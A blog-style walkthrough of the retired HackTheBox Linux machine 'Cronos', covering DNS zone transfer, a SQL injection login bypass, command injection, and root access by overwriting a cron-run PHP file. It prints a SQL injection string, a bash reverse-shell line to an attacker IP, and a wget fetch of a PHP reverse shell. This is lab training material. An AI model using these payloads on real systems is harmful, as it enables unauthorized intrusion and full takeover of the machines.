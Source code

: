 ```yaml
---
title: Cronos - HackTheBox Walkthrough
date: 2021-10-24 12:00:00 
categories: [HackTheBox,Linux]
tags: [dns,zone transfer,sqli,pspy]
img_path: /assets/img/HTB/Cronos/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Cronos` a retired linux machine from HackTheBox rated medium. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Sat Oct 23 06:45:17 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.241.243
Nmap scan report for 10.129.241.243
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 23 06:45:42 2021 -- 1 IP address (1 host up) scanned in 25.24 seconds
```
Three ports are open: `22:ssh`,`53:domain` and `80:http`.
## Port 53 - domain
DNS service is running on the victim machine. We can try for a `dns zone transfer` and if we succeed may get some subdomains of the domain `cronos.htb`.

```console
$ dig @10.129.241.243 axfr cronos.htb
; <<>> DiG 9.16.15-Debian <<>> @10.129.241.243 axfr cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.129.241.243
admin.cronos.htb.	604800	IN	A	10.129.241.243
ns1.cronos.htb.		604800	IN	A	10.129.241.243
www.cronos.htb.		604800	IN	A	10.129.241.243
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 120 msec
;; SERVER: 10.129.241.243#53(10.129.241.243)
;; WHEN: Sat Oct 23 06:51:42 -05 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

![01-dig](01-dig.png)

We got **three new subdomains** namely `admin.cronos.htb`, `ns1.cronos.htb`  and `www.cronos.htb`. Added these domains to my `/etc/hosts` file.
```console
$ sudo echo "10.129.241.243 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb" >> /etc/hosts
```

## HTTP Enumeration
### Cronos.htb
Hitting `http://cronos.htb` lead to a page with some links to a external site.

![02-web](02-web.png)

Also `gobuster` no returns any interesting directory or file.

## admin.cronos.htb

The next domain to enumerate is `admin.cronos.htb`, it's a login page which the common credentials(`admin/admin`,`admin/cronos`,etc) didn't work

![03-web](03-web.png)

# Initial Foothold
But, good old sqli nothing beats that.
`admin' or 1=1-- -`

![04-sqli](04-sqli.png)

After bypass the login, we are presented with a page that is vulnerable to a command injection.

![05-whoami](05-whoami.png)

With the next input we can get a reverse shell on our netcat listener port:

```plaintext
localhost | bash -c "bash -i >& /dev/tcp/10.10.14.34/443 0>&1"
```

![06-shell](06-shell.png)

To upgrade the shell:
```console
$ python -c "import pty;pty.spawn('/bin/bash')"
$ ^Z
$ stty raw -echo; fg
$   reset
$ export TERM=xterm
$ export TERM=bash
```

# Privilage Escalation
I didn't find anything useful with `sudo -l` or searching SUID files, that's why I decided use [pspy](https://github.com/DominicBreuker/pspy/releases) to monitor the processes running on the machine.

![07-pspy](07-pspy.png)

It seems that root is executing a php file named `artisan` periodically, let's replace it with a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```
$ wget http://10.10.14.34/php-reverse-shell.php
$ cat php-reverse-shell.php > artisan
```
Once we tranfered the file and changed the content of artisan, we recived a shell as root!!!

![08-root](08-root.png)

That’s it for now guys. Until next time.
